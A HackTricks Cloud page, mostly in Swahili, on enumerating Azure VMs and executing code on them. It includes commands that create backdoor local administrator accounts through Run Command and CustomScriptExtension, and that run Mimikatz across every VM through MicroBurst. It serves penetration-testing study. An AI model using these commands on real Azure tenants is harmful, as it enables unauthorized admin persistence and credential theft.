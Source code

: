 # Az - Mashine za Kijijini & Mtandao

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

## Taarifa za Msingi

[Toka kwenye docs:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Mashine za kijijini za Azure ni mojawapo ya aina kadhaa za [rasilimali za kompyuta zinazopatikana kwa mahitaji](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) ambazo Azure inatoa. Kwa kawaida, unachagua mashine ya kijijini unapohitaji udhibiti zaidi juu ya mazingira ya kompyuta kuliko chaguzi nyingine zinavyotoa. Makala hii inakupa taarifa kuhusu kile unapaswa kuzingatia kabla ya kuunda mashine ya kijijini, jinsi ya kuunda hiyo, na jinsi ya kuisimamia.

## Taarifa za Mtandao wa Azure

Mitandao ya Azure ina **entiti tofauti na njia za kuikamilisha.** Unaweza kupata **maelezo mafupi,** **mfano** na **amri za kuhesabu** za entiti tofauti za mtandao wa Azure katika:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** inatoa suluhisho salama, lililohudumiwa kikamilifu la RDP (Remote Desktop Protocol) na SSH (Secure Shell) kupitia SSL kupitia lango la Azure. Imeunganishwa ndani ya Mtandao wa Kijijini wa Azure, ikiruhusu muunganisho wa RDP na SSH kwa VMs kwa kutumia IP za kibinafsi, ikiepuka hitaji la IP za umma. Hii inafanya kuwa mbadala salama na rahisi zaidi kwa mbinu za jadi zinazohusisha ugawaji wa IP za umma na usanidi wa sheria za NSG kwa ufikiaji wa VM. Wanaendeleza na wafanyakazi wa IT wanaweza kufikia VMs kwa usalama kutoka kwenye lango la Azure wakitumia vivinjari vya wavuti, wakifanya mchakato wa mazingira ya maendeleo na majaribio kuwa rahisi.

Ili orodhesha Hosts zote za Azure Bastion katika usajili wako, unaweza kutumia amri ifuatayo:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Uainishaji wa VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Kimbia amri katika VM**

### **AAD Kuingia katika VM**

Inawezekana kuruhusu ufikiaji kwa watumiaji walioidhinishwa kupitia AzureAD. Kwa mfano, kujaribu kufikia **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (ni muhimu **kutumia barua pepe** na azurecorp iliyotumika unapojaribu kuingia) unaweza kupata kosa kama: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Fuata **maagizo hayo** kwa kutembelea [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) na kuonyesha msimbo, tumia barua pepe na nenosiri kama uthibitisho na utaweza kuungana kupitia SSH (ikiwa mtumiaji huyo ana ruhusa za kutosha kufanya hivyo: `Virtual Machine Administrator Login` au `Virtual Machine User Login` role).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Run Custom Script Extension**

Azure virtual machine (VM) extensions ni **programu ndogo** ambazo zinatoa usanidi wa baada ya kupeleka na **kazi** za automatisering kwenye **Azure VMs**. Kwa mfano, ikiwa mashine ya virtual inahitaji usakinishaji wa programu, ulinzi wa antivirus, au uwezo wa kuendesha script ndani yake, unaweza kutumia nyongeza ya VM.

Hivyo, ikiwa una ufikiaji wa kuandika, unaweza kutekeleza msimbo wowote:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) ni chombo cha PowerShell kinachofanana na Ansible, kinachotumika kwa ajili ya kuandaa mwenyeji kupitia msimbo. DSC inajumuisha na Azure, ikiruhusu kupakia faili maalum za usanidi. Faili hizi lazima zifuate sarufi kali. Kwa kuzingatia, nyongeza ya DSC katika Azure inaweza kutekeleza amri kutoka kwa faili ambazo zinakidhi vigezo fulani vya muundo, hata kama sarufi si sahihi kwa viwango vya DSC, kama inavyoonyeshwa katika picha iliyotolewa.

Utekelezaji wa amri hizi unarahisishwa na [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) kazi katika Az PowerShell. Mahitaji ni pamoja na faili ya **.PS1** yenye kazi iliyofafanuliwa na faili lazima iwe imepakwa kwenye faili ya **.zip**. Ingawa sarufi inaweza kuwa si sahihi kwa DSC, msimbo bado utaweza kutekelezwa. Hata hivyo, nyongeza itakadiria hali ya utekelezaji kama "kushindwa," na hakuna matokeo kutoka kwa amri yatakayokuwa yanaonekana kutokana na hali hiyo kufutwa na ujumbe wa kushindwa.

### VM Application Definitions

VM Application Definitions zinaruhusu kupelekwa kwa mara kwa mara kwa programu zenye toleo kwenye VM ya Azure. Rasilimali hii inasaidia kupelekwa na sasisho la programu katika VMs. Ili kuanzisha hii, hatua kadhaa zinahitajika, zikihusisha amri kama **`New-AzGalleryApplication`** na **`New-AzGalleryApplicationVersion`** katika Az PowerShell.

Utekelezaji wa programu au amri kupitia njia hii unahusisha **"VMAppExtension,"** ambayo inasakinishwa kiotomatiki wakati programu inapowekwa kwenye VM. Nyongeza inachukua faili kutoka URI iliyotolewa na kuipa jina sawa na programu, bila nyongeza. Ili kutekeleza faili hiyo kwa usahihi, uwanja wa "ManageActions" katika wito wa REST API lazima uandaliwe kubadilisha jina la faili kwa nyongeza inayofaa. Mpangilio wa njia hii, mara tu ukikamilika, utafanana na muundo ulioonyeshwa katika picha iliyotolewa.

Hata hivyo, njia hii ya utekelezaji ni polepole, ikichukua takriban dakika 3-4 kutekeleza programu au amri. Faili zinazohusiana na mchakato huu zimehifadhiwa katika directories maalum (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` kwa nakala ya programu na `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` kwa hali ya utekelezaji).

Mbinu zote mbili zinatoa njia za kipekee za kutekeleza amri na kupeleka programu katika mazingira ya Azure, kila moja ikiwa na seti yake ya mahitaji, hatua, na mambo ya kuzingatia.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) ni kipengele katika Azure kinachoruhusu Runbooks, zilizowekwa katika Akaunti ya Automation, kutekelezwa kwenye Mashine Halisi ya Azure (VM) ambayo ni sehemu ya HWG iliyoteuliwa. Utekelezaji huu unarahisishwa kupitia nyongeza iliyosakinishwa kwenye VM, ambayo inapeleka msimbo wa Runbook kwenye VM. Kipengele muhimu cha mchakato huu ni kwamba akreditif halisi si kipengele katika utekelezaji kwa sababu msimbo unakimbia kwa mamlaka ya juu, hasa kama **SYSTEM** au root, kama inavyoonyeshwa katika picha iliyotolewa.

Maelezo muhimu kwa wale wanaotumia VMs za Windows 10 ni hitaji la kubainisha toleo la PowerShell kwa Runbook. Inapaswa kuwekwa kutekelezwa kama PowerShell Toleo 5.1 badala ya 7.1. Hitaji hili linatokana na ukweli kwamba PowerShell 7.1 haijasanidiwa kwa chaguo-msingi kwenye VMs hizi, na kusababisha kushindwa kwa utekelezaji wa skripti ikiwa toleo 7.1 limewekwa.

Kipengele hiki cha Azure kinatoa njia thabiti ya kujiendesha na kusimamia kazi katika mazingira ya mseto, ikiruhusu usimamizi wa kati na utekelezaji wa kazi kwenye VMs za Azure.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
